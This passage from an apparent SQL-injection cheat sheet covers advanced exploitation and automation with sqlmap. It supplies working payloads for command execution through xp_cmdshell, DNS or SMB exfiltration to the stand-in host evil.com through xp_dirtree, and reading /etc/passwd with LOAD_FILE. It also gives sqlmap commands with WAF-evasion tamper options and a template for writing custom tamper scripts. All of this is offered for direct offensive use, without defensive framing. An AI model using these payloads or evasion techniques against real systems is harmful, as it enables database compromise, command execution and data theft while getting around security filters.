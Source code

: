 ### 4. Exploiting Advanced Scenarios

#### Stored Procedures
- **Execute Arbitrary SQL**:
  ```sql
  '; EXEC xp_cmdshell('whoami') --
  ```

#### Out-of-Band SQL Injection
- **Exfiltrate Data via DNS or HTTP Requests**:
  ```sql
  '; EXEC master..xp_dirtree '\\evil.com\payload' --
  ```

#### Leveraging Privileges
- **Reading or Writing Files**:
  ```sql
  ' UNION SELECT LOAD_FILE('/etc/passwd') --
  ```

### 5. Automation and Custom Scripts

#### Custom SQLMap Commands
- **Bypass WAFs or Target Specific Injection Points**:
  ```sh
  sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=space2comment --level=5 --risk=3
  ```
- **Some Tamper Scripts I use**
  ```tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords```
  
### 6. Creating Your Own Tamper Script
Creating your own tamper script for SQLMap involves writing a Python script that modifies the payloads used by SQLMap to evade web application firewalls (WAFs) or other filtering mechanisms. Here is a step-by-step guide to create a custom tamper script.

### Step 1: Understand the Basics of a Tamper Script

A tamper script modifies the payload sent to the server. The script should contain a function called `tamper` that takes a payload string as an argument and returns the modified payload string.

### Step 2: Structure of a Tamper Script

Here is the basic structure of a tamper script:

```python
#!/usr/bin/env python

import random

__priority__ = 1

def dependencies():
    pass

def tamper(payload):
    # Modify the payload here
    modified_payload = payload
    return modified_payload
```
